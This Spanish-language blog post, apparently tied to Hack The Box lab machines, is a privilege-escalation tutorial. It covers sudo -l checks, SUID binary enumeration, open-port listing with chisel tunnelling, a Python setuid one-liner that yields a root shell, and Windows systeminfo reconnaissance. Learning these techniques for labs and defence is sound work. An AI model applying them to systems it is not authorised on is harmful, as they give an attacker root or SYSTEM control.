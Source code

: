 ```yaml
---
date: 2021-11-15T01:14:05.000Z
layout: post
comments: true
title: Escalar privilegios
subtitle: 'para obtener acceso a root o a NT authority system'
description: >-
image: >-
  http://imgfz.com/i/pLYBOku.png
optimized_image: >-
  http://imgfz.com/i/pLYBOku.png
category: ciberseguridad
tags:
  - escalada
  - privilegios
  - root
  - NTauthoritysystem
  - hacking
author: Felipe Canales Cayuqueo
paginate: true
---
```


El usuario root en Linux es el usuario que posee mayor nivel de privilegios. De hecho, es el único que tiene privilegios sobre todo el sistema en su globalidad, así como el responsable de las tareas administrativas.

De este modo, cuando tu, o cualquier programa, quiera llevar a cabo una acción que requiera permisos de superusuario, de alguna manera se les tendrá que conceder o denegar estos privilegios. Pero la pregunta es si soy un usuario común, ¿puedo ser root, sin necesidad de contraseña?. La respuesta es que si con ciertos pasos que veremos a continuación aprovechando las vulnerabilidades que dejan los usuarios administradores.

# Linux

## Sudo

Una manera de escalar privilegios es a través del siguiente comando:

```bash
┌─[user@user]─[/]
└──╼ sudo -l
```

y ahí aparecerá un binario en el cuál podremos obtener acceso root siguiendo los pasos que nos indican en [GTFOBins](https://gtfobins.github.io/).

## SUID

Otra manera es buscando en /usr/bin, algún binario que contenga un permiso cuyo carácter sea ```s``` en lugar de ```x```.

```bash
┌─[user@user]─[/]
└──╼ ls -l /usr/bin/passwd
-rwsr-xr-x 1 root root 45420 May 17  2017 /usr/bin/passwd
```

Ahora también podemos buscar todos los binarios SUID a través de ```find```, con el siguiente comando:

```bash
┌─[user@user]─[/]
└──╼ find / -type f -user root -perm -4000 2>/dev/null
/var/htb/bin/emergency
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/traceroute6.iputils
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/mtr
/usr/sbin/pppd
/bin/ping
/bin/ping6
/bin/su
/bin/fusermount
/bin/mount
/bin/umount
```

## Puertos abiertos en la máquina

```bash
┌─[user@user]─[/]
└──╼ ss -lnpt
State     Recv-Q    Send-Q       Local Address:Port        Peer Address:Port    Process                                                                         
LISTEN    0         128                0.0.0.0:23               0.0.0.0:*        users:(("python3",pid=829,fd=3))                                               
LISTEN    0         4096             127.0.0.1:631              0.0.0.0:*                                                                                       
LISTEN    0         4096                 [::1]:631                 [::]:*                                                                                       
```
En este caso hay una página web en la máquina la cual podremos visualizar por medio de [chisel](https://github.com/jpillora/chisel).

## Binarios

Otra forma de hacerlo es chequear que binarios contienen permisos de ejecución para un usuario:

```bash
┌─[user@user]─[/]
└──╼ ls -l /bin/ | grep rwxrwx
lrwxrwxrwx 1 root   root           8 Mar 13  2020 pydoc3 -> pydoc3.8
lrwxrwxrwx 1 root   root          12 Mar 13  2020 pygettext3 -> pygettext3.8
lrwxrwxrwx 1 root   root           9 Mar 13  2020 python3 -> python3.8
lrwxrwxrwx 1 root   root          16 Mar 13  2020 python3-config -> python3.8-config
lrwxrwxrwx 1 root   root          33 Jan 27  2021 python3.8-config -> x86_64-linux-gnu-python3.8-config
```

Aquí podríamos escalar privilegios a través de ```Python```, siguiendo los pasos que nos muestran en [GTFOBins](https://gtfobins.github.io/).

```bash
┌─[user@user]─[/]
└──╼ python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'

┌─[root@root]─[/]
└──╼ whoami
root
```

# Windows

En el caso de Windows se podría realizar a través de ```systeminfo```, para así poder averiguar vulnerabilidades del sistema:

```
C:\>systeminfo
systeminfo

Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00477-001-0000421-84900
Original Install Date:     22/3/2017, 11:09:45   
System Boot Time:          29/12/2017, 3:34:21   
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2600 Mhz
                           [02]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2600 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 5/4/2016
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.024 MB
Available Physical Memory: 88 MB
Virtual Memory: Max Size:  2.048 MB
Virtual Memory: Available: 1.085 MB
Virtual Memory: In Use:    963 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.11
```

![1](http://imgfz.com/i/rFQc3RH.png)
